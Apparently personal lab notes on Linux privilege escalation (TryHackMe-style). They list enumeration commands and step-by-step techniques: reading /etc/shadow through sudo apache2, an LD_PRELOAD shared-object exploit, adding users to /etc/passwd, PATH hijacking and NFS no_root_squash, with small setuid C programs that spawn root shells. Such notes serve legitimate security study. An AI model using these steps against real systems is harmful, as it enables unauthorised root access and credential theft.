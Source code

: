 Useful Enum commands
`hostname`
`/proc/version`
`uname -a`
`/etc/issue`
`ps`
`env`
(Sudo)`sudo -l`
`ls -al`
`id`
`/etc/passwd`
`history`
`ifconfig`
`ip route`
`netstat -a -at -au -l -s -tp -i`
`netstat -ano`
`find / -perm -u=s -type f 2>/dev/nullcaeve`
(SUID)`find / -type f -perm -04000 -ls 2>/dev/null`
(capabilities)`getcap -r / 2>/dev/null`
(cron jobs) `/etc/crontab`
(path) `find / -writable 2>/dev/null`
(NFS) `/etc/exports`
Kernel Exploits
===
DirtyCow + overlayFS

Sudo Exploits
===
1. `apache2 -f /etc/shadow` --> error message should show first line of the file (aka the root user's encrypted pswd?)
2. leverageing *LD_Preload*
	1. Check for LD_PRELOAD (with the env_keep option)
	2. Write a simple [[c code sudo privesc]] compiled as a share object (.so extension) file (`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`)
	3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file (`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`)




SUID Exploits
===
gtfobins
1. reading /etc/shadow and /etc/passwd, inserting the user + hash into 2 files, unshadowing them before cracking them with john (nano)
2. creating a new user and adding them to /etc/passwd (nano) `openssl passwd -1 -salt <salt> <pwd>`

Capabilities 
===
gtfobins
Cron Jobs
===
manipulate it to spawn a shell (with root privs)
PATH
===
be sure you can answer the questions below before trying this.

    What folders are located under $PATH
    Does your current user have write privileges for any of these folders?
    Can you modify $PATH?
    Is there a script/application you can start that will be affected by this vulnerability?
use command with _cut_ and _sort_ as follows for a cleaner output:
`find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u` or this specifically more in depth for _usr_:
`find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u`
or this to get rid of results for running processes:
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`

1. /tmp$ `echo "/bin/bash" > thm`
2. `export PATH=/tmp$PATH`
3. cretae a c binary in a directory where you have write access, so that the binary will be executed with root privileges: 
```c
#include <unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("thm");
}
```
4. run the binary and root shell should be executed

NFS
===
Network File Sharing
**no_root_squash** --> do the attacker things as root
1. `showmount -e <targetIP>`
2. `mkdir /mnt/jrpentester`
3. `sudo mount -o rw 10.10.222.207:/home/ubuntu/sharedfolder /mnt/jrpentester`
4. create a simple executable for a shell (in /mnt/jrpentester dir): 
```c++
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```
5. compile it with `gcc nfs.c -o nfs -w`
6. `chmod +s nfs`
7. execute on target machine (can be found under /home/ubuntu/sharedfolder)